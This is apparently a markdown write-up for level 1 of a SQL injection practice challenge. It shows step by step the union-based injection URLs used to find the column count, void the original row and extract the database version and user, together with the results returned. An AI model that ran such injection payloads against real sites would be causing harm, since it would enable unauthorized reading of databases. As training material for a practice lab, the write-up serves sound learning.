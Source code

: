 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

## [Level 1](https://zixem.altervista.org/SQLi/level1.php?id=1)
  Start: `https://zixem.altervista.org/SQLi/level1.php?id=1`
> - **Item ID:** 1
> - **Price:** 20$
=> I guess the Query can be:
`SELECT * FROM <db> WHERE id=1`
=> We should add `UNION SELECT 1,2;--`
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns**Item ID:**
> - **Price:** $
=> So it doesn't have 2 columns, let's try again with more to see if the error still exist
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$
=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$
  Ok let's extract *version()* and *user()*:
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$
=> Bazinga!
